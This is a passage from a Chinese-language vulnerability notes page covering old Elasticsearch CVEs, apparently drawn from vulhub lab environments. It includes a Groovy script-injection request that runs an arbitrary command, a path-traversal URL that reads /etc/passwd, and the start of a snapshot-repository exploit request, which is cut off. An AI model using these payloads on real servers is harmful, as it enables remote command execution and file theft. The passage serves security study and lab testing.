     {
    "name": "test"
    }
    ```

    然后发送包含 payload 的数据包,执行任意命令:
    ```
    POST /_search?pretty HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/text
    Content-Length: 156

    {"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
    ```

**CVE-2015-3337 目录穿越漏洞**
- 简介

    在安装了具有"site"功能的插件以后,插件目录使用 ../ 即可向上跳转,导致目录穿越漏洞,可读取任意文件.没有安装任意插件的 elasticsearch 不受影响.

- 影响版本

    - ElasticSearch < 1.4.4
    - ElasticSearch 1.5.0 ~ 1.5.1

- POC | Payload | exp

    来源: https://vulhub.org/#/environments/elasticsearch/CVE-2015-3337/

    - `http://your-ip:9200/_plugin/head/../../../../../../../../../etc/passwd` (不要在浏览器访问)

    - `http://your-ip:9200/_plugin/head/`

**CVE-2015-5531**
- 简介

    elasticsearch 1.5.1 及以前,无需任何配置即可触发该漏洞.之后的新版,配置文件 elasticsearch.yml 中必须存在 path.repo,该配置值为一个目录,且该目录必须可写,等于限制了备份仓库的根位置.不配置该值,默认不启动这个功能.

- 影响版本

    - ElasticSearch < 1.6.0

- 文章
    - [Elasticsearch目录遍历漏洞 (CVE-2015-5531) 复现与分析 (附PoC) ](https://www.freebuf.com/vuls/99942.html)

- POC | Payload | exp

    来源: https://vulhub.org/#/environments/elasticsearch/CVE-2015-5531/

    新建一个仓库
    ```
    PUT /_snapshot/test HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108
